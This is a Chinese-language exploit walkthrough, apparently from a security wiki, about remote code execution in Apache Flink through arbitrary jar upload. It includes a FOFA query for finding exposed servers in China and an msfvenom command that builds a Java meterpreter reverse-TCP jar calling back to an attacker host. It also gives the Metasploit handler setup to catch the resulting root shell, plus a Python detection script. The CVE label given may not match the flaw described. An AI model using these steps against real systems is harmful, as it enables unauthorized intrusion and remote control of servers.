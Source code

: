 # Apache Flink <= 1.9.1(最新版本) 远程代码执行 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞.

##  漏洞影响

> [!NOTE]
>
> Apache Flink  <= 1.9.1(最新版本)

## FOFA

```fofa
FOFA 语句
app="Apache-Flink" && country="CN"
```

![](Apache-Flink-小于1.9.1远程代码执行-CVE-2020-17518.assets/1627363454946357.jpg)

国内还是很多使用 `Apache Flink` 的，大概有1000的数量左右

## 漏洞复现

打开一个使用 Apache Flink 的网站，打开后页面为这样子

![](Apache-Flink-小于1.9.1远程代码执行-CVE-2020-17518.assets/1627363455246777.jpg)

点击查看文件上传页面

![](Apache-Flink-小于1.9.1远程代码执行-CVE-2020-17518.assets/1627363455554982.jpg)



打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![](Apache-Flink-小于1.9.1远程代码执行-CVE-2020-17518.assets/1627363455877752.jpg)

监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![](Apache-Flink-小于1.9.1远程代码执行-CVE-2020-17518.assets/16273634560977302.jpg)

点击下 submit 

![](Apache-Flink-小于1.9.1远程代码执行-CVE-2020-17518.assets/1627363456382288.jpg)

反弹回来一个root 权限shell

![](Apache-Flink-小于1.9.1远程代码执行-CVE-2020-17518.assets/1627363456660823.jpg)

## 漏洞检测POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Flink <= 1.9.1          \033[0m')
    print('+  \033[36m使用格式: python3 Apache_Flink.py         \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jars/upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "Unable to load requested file /jars/upload." in response.text:
            print("\033[32m[o] 可能存在 Apache Flink <= 1.9.1 远程代码执行漏洞\n\033[0m")
        else:
            print("\033[31m[x] 目标Url 文件上传模块无法使用\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](Apache-Flink-小于1.9.1远程代码执行-CVE-2020-17518.assets/1627363457168843.jpg)

